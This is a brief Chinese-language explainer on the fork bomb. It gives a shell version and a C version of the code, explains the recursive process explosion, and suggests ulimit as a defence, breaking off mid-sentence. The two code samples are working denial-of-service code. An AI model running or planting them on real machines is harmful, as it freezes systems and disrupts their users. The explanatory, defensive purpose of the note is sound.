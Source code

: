 # fork炸弹

## 代码

shell

```
:()  		//定义一个名字为:的函数 
{			//函数开始
    :|:&	//在后台递归进行调用函数
}			//函数结束
:			//调用函数
```

c

```
#include <stdio.h>

int main() {
    while(1) {
        fork();
        setsid();
    }
    return 0;
}
```

## 讲解

可以理解为定义一个:函数通过:进行递归通过&进行在后台开启新进程通过管道使其进行几何式增长最后对:函数进行调用

## 预防

使用命令ulimit可以进行对用户进行某些限制

例如：

```
ulimit -u 限制的数量
ulimit -a
```

命令可以控制后台最多进程数为